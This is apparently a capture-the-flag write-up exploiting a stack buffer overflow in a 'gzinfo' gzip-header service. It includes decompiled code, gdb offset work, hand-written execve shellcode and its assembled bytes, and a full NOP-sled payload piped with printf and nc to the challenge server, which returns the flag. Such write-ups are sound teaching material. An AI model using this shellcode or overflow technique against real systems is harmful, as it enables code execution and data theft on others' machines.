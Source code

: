 gzinfo
======

Background
----------
The goal was to retrieve the flag stored on the server

Tools used
----------
* IDA Pro
* `gdb`

Process
-------
Opening up the executable in IDA, I found that the function `handle` handled network connections and then called `get_header`, which I entered and got hexrays to decompile to:
````c
void *__stdcall get_header(void *dest, int fd)
{
  int v2; // eax@13
  int v3; // eax@13
  char buf2; // [sp+1Bh] [bp-13Dh]@9
  char buf[288]; // [sp+1Ch] [bp-13Ch]@1
  int receivedBytes; // [sp+13Ch] [bp-1Ch]@9

  myread(fd, buf, 10);
  if ( buf[3] & 2 )
    myread(fd, &buf[10], 2);
  if ( buf[3] & 4 )
  {
    myread(fd, &buf[12], 2);
    myread(fd, &buf[14], *(signed __int16 *)&buf[12]);
  }
  if ( buf[3] & 8 )
    *(_DWORD *)&buf[272] = readstr(fd);
  if ( buf[3] & 0x10 )
    *(_DWORD *)&buf[276] = readstr(fd);
  while ( 1 )
  {
    receivedBytes = recv(fd, &buf2, 1u, 0);
    if ( receivedBytes < 0 )
    {
      perror("recv");
      exit(1);
    }
    if ( !receivedBytes )
      break;
    *(_DWORD *)&buf[280] >>= 8;
    v2 = *(_DWORD *)&buf[280];
    *(_DWORD *)&buf[280] = (*(_DWORD *)&buf[284] << 24) | v2 & 0xFFFFFF;
    *(_DWORD *)&buf[284] >>= 8;
    v3 = *(_DWORD *)&buf[284];
    *(_DWORD *)&buf[284] = (buf2 << 24) | v3 & 0xFFFFFF;
  }
  memcpy(dest, buf, 288u);
  return dest;
}
````

The important lines here are:
````c
  if ( buf[3] & 4 )
  {
    myread(fd, &buf[12], 2);
    myread(fd, &buf[14], *(signed __int16 *)&buf[12]);
  }
````
which allows me to write an arbitrary number of bytes to the stack, as long as it was in the format:
````
aaa ; Padding
\x04
aaaaaa ; More padding
<Length of following data as a 2-byte LE integer>
<Data>
````

Looking at the stack:
````
-0000013D buf2            db ?
-0000013C buf             db 288 dup(?)
-0000001C receivedBytes   dd ?
-00000018 var_18          dd ?
-00000014 var_14          dd ?
-00000010 var_10          dd ?
-0000000C var_C           dd ?
-00000008 var_8           dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
````
Showed me that I had (288 - 10 - 2 = 276) bytes of data to work with without having it overwritten, and a total of (288 + 8*4 = 320) bytes needed to reach the return address.

Since the stack was executable, I am able to get it to return to an address on the stack, which fortunately the executable on the server outputs a reference value of 0xbffffaa0. That address points to the buffer outside of this stack frame, so I needed to know the difference to change it to within the `buf` variable, and the following `gdb` session shows how I did it:
````
$ gdb ./gzinfo
<snip>
(gdb) set follow-fork-mode child
(gdb) break get_header
Breakpoint 1 at 0x80489cb
(gdb) r
Starting program: /path/to/gzinfo
Listening on 0.0.0.0:1234
[New process 11279]
spawned child with pid = 11279
[Switching to process 11279]

Breakpoint 1, 0x080489cb in get_header ()
(gdb) disas get_header
Dump of assembler code for function get_header:
   0x080489c5 <+0>:	push   %ebp
   0x080489c6 <+1>:	mov    %esp,%ebp
   0x080489c8 <+3>:	push   %edi
   0x080489c9 <+4>:	push   %esi
   0x080489ca <+5>:	push   %ebx
=> 0x080489cb <+6>:	sub    $0x14c,%esp
   0x080489d1 <+12>:	movl   $0xa,0x8(%esp)
   0x080489d9 <+20>:	lea    -0x13c(%ebp),%eax
   0x080489df <+26>:	mov    %eax,0x4(%esp)
   0x080489e3 <+30>:	mov    0xc(%ebp),%eax
<snip>
(gdb) x/10xw $esp
0xffffcddc:	0xf7fb0000	0x00000000	0x00000000	0xffffd0d8
0xffffcdec:	0x08048ff6	0xffffcfa0	0x00000008	0xffffcf20
0xffffcdfc:	0xf7fe5ed9	0xffffcea8
````
The stack reference value it output was 0xffffcf20, the return address was at 0xffffcdec, and `buf` being -0x138 away from that. The address difference to `buf` was then (0xffffcdec - 0xffffcf20 - 0x138 = -0x26c). However, I needed and address at least 14 bytes past `buf`, where the input is written, so I chose a nice and round offset of -0x250.

For the "shell" code it was to execute, I modified one of my old shellcodes to call `cat key >&4`, since `key` was probably the file the flag was stored in judging from the file in pie.
````nasm
jmp $+5
pop eax
jmp eax
call $-3
mov esp, eax
add esp, 0x7f
add esp, 0x7f
xor eax, eax

mov dword ptr [esp], 0x6e69622f ; "/bin"
mov word ptr [esp+0x4], 0x732f ; "/s"
mov byte ptr [esp+0x6], 0x68 ; "h"
mov byte ptr [esp+0x7], al

mov dword ptr [esp+0xc], 0x4d524554 ; "TERM"
mov dword ptr [esp+0x10], 0x6574783d ; "=xte"
mov dword ptr [esp+0x14], eax
mov word ptr [esp+0x14], 0x6d72 ; "rm"

mov dword ptr [esp+0x18], eax
mov word ptr [esp+0x18], 0x632d ; "-c"

mov dword ptr [esp+0x1c], 0x20746163 ; "cat "
mov dword ptr [esp+0x20], 0x2079656b ; "key "
mov word ptr [esp+0x24], 0x263e ; ">&"
mov byte ptr [esp+0x26], 0x34 ; "4"
mov byte ptr [esp+0x27], al

mov ebx, esp
mov dword ptr [esp+0x28], esp
add ebx, 0x18
mov dword ptr [esp+0x2c], ebx
add ebx, 4
mov dword ptr [esp+0x30], ebx
mov dword ptr [esp+0x34], eax

lea ebx, [esp+0xc]
mov dword ptr [esp+0x38], ebx
mov dword ptr [esp+0x3c], eax

mov ebx, esp
lea ecx, [esp+0x28]
lea edx, [esp+0x38]
add eax, 0x0b
int 0x80
````
This "shellcode" essentially calls:
````cpp
execve("/bin/sh", {"/bin/sh", "-c", "cat key >&4", nullptr}, {"TERM=xterm", nullptr})
````
I know it is long and not the best way to do it, but it was the first way that came to mind when I wrote it originally half a year ago and I haven't been bothered to make it smaller yet.
Assembling that gives me this:
````
\xEB\x03\x58\xFF\xE0\xE8\xF8\xFF\xFF\xFF\x89\xC4\x83\xC4\x7F\x83\xC4\x7F\x31\xC0\xC7\x04\x24\x2F\x62\x69\x6E\x66\xC7\x44\x24\x04\x2F\x73\xC6\x44\x24\x06\x68\x88\x44\x24\x07\xC7\x44\x24\x0C\x54\x45\x52\x4D\xC7\x44\x24\x10\x3D\x78\x74\x65\x89\x44\x24\x14\x66\xC7\x44\x24\x14\x72\x6D\x89\x44\x24\x18\x66\xC7\x44\x24\x18\x2D\x63\xC7\x44\x24\x1C\x63\x61\x74\x20\xC7\x44\x24\x20\x6B\x65\x79\x20\x66\xC7\x44\x24\x24\x3E\x26\xC6\x44\x24\x26\x34\x88\x44\x24\x27\x89\xE3\x89\x64\x24\x28\x83\xC3\x18\x89\x5C\x24\x2C\x83\xC3\x04\x89\x5C\x24\x30\x89\x44\x24\x34\x8D\x5C\x24\x0C\x89\x5C\x24\x38\x89\x44\x24\x3C\x89\xE3\x8D\x4C\x24\x28\x8D\x54\x24\x38\x83\xC0\x0B\xCD\x80
````
It was only 164 bytes long so I needed to pad it with (288 - 14 - 164 = 110) NOPs to completely fill up `buf`. After that, I still needed (320 - 288 = 32) bytes of padding to be able to overwrite the return address.

The final input looked like this:
````
aaa ; Padding
\x04
aaaaaa ; More padding
\x36\x01 ; 110 + 164 + 32 + 4 = 310 = 0x136
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
\xEB\x03\x58\xFF\xE0\xE8\xF8\xFF\xFF\xFF\x89\xC4\x83\xC4\x7F\x83\xC4\x7F\x31\xC0\xC7\x04\x24\x2F\x62\x69\x6E\x66\xC7\x44\x24\x04\x2F\x73\xC6\x44\x24\x06\x68\x88\x44\x24\x07\xC7\x44\x24\x0C\x54\x45\x52\x4D\xC7\x44\x24\x10\x3D\x78\x74\x65\x89\x44\x24\x14\x66\xC7\x44\x24\x14\x72\x6D\x89\x44\x24\x18\x66\xC7\x44\x24\x18\x2D\x63\xC7\x44\x24\x1C\x63\x61\x74\x20\xC7\x44\x24\x20\x6B\x65\x79\x20\x66\xC7\x44\x24\x24\x3E\x26\xC6\x44\x24\x26\x34\x88\x44\x24\x27\x89\xE3\x89\x64\x24\x28\x83\xC3\x18\x89\x5C\x24\x2C\x83\xC3\x04\x89\x5C\x24\x30\x89\x44\x24\x34\x8D\x5C\x24\x0C\x89\x5C\x24\x38\x89\x44\x24\x3C\x89\xE3\x8D\x4C\x24\x28\x8D\x54\x24\x38\x83\xC0\x0B\xCD\x80
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
\x80\xf8\xff\xbf ; 0xbffffaa0 - 0x250 = 0xbffff850
````
````
$ printf 'aaa\x04aaaaaa\x36\x01\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xEB\x03\x58\xFF\xE0\xE8\xF8\xFF\xFF\xFF\x89\xC4\x83\xC4\x7F\x83\xC4\x7F\x31\xC0\xC7\x04\x24\x2F\x62\x69\x6E\x66\xC7\x44\x24\x04\x2F\x73\xC6\x44\x24\x06\x68\x88\x44\x24\x07\xC7\x44\x24\x0C\x54\x45\x52\x4D\xC7\x44\x24\x10\x3D\x78\x74\x65\x89\x44\x24\x14\x66\xC7\x44\x24\x14\x72\x6D\x89\x44\x24\x18\x66\xC7\x44\x24\x18\x2D\x63\xC7\x44\x24\x1C\x63\x61\x74\x20\xC7\x44\x24\x20\x6B\x65\x79\x20\x66\xC7\x44\x24\x24\x3E\x26\xC6\x44\x24\x26\x34\x88\x44\x24\x27\x89\xE3\x89\x64\x24\x28\x83\xC3\x18\x89\x5C\x24\x2C\x83\xC3\x04\x89\x5C\x24\x30\x89\x44\x24\x34\x8D\x5C\x24\x0C\x89\x5C\x24\x38\x89\x44\x24\x3C\x89\xE3\x8D\x4C\x24\x28\x8D\x54\x24\x38\x83\xC0\x0B\xCD\x80aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x80\xf8\xff\xbf' | nc 54.252.227.181 1234
debug: stack is 0xbffffaa0
gzip header extractor
Send us a gzip and we'll send you some information about it.
e.g. nc 127.0.0.1 1234 < file.gz
1Kb48m2251rfCNsFKfuTVzN1grTQf7Xjke
````
